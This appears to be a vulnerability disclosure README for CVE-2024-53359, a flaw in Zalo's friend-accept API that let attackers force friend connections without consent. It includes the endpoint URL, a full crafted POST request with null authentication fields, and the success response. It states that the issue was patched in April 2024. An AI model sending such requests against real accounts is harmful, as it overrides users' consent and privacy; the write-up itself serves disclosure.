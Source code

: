 # CVE-2024-53359: Zalo API Vulnerability Allows Adding Friends Without Consent

## Overview
A vulnerability in Zalo (v23.09.01) allows attackers to add friends without user consent by exploiting insecure permissions in the API. Discovered in April 2024, this issue was patched by Zalo on April 15, 2024.

---

## Details

### Affected API
- **Endpoint**: `ACCEPT_FRIEND`  
  **URL**: `https://friend.talk.zing.vn/api/friend/accept`

### Exploit
By sending a crafted POST request to the `ACCEPT_FRIEND` endpoint with specific parameters, attackers could force a friend connection without user approval.  

Example POST request:
```http
POST https://friend.talk.zing.vn/api/friend/accept
Content-Type: application/json

{
  "actiontime": 1,
  "api_key": "NULL",
  "avatarSize": 120,
  "clientType": 1,
  "session_key": "NULL",
  "sign": "NULL",
  "ts": "NULL",
  "userId": 397726729,
  "sig": "NULL"
}
```

If the server returns:
```json
{
  "code": 0
}
```
It means the friend request was successfully accepted.

---

## Impact
- **Type**: Insecure Permissions
- **Effect**: Allows unauthorized friend connections if the attacker's side has your phone number.
- **CVSS Score**: 5.3 (Medium)

---

## Timeline
- **Discovery**: Early April 2024  
- **Fix Released**: April 15, 2024  

---

## Embedded Video
Click below to watch the detailed video explanation of the vulnerability:

[Click to watch the video](./videos/video-explanation.mp4)

---

## Disclaimer
This document is for informational purposes only. Do not exploit this vulnerability.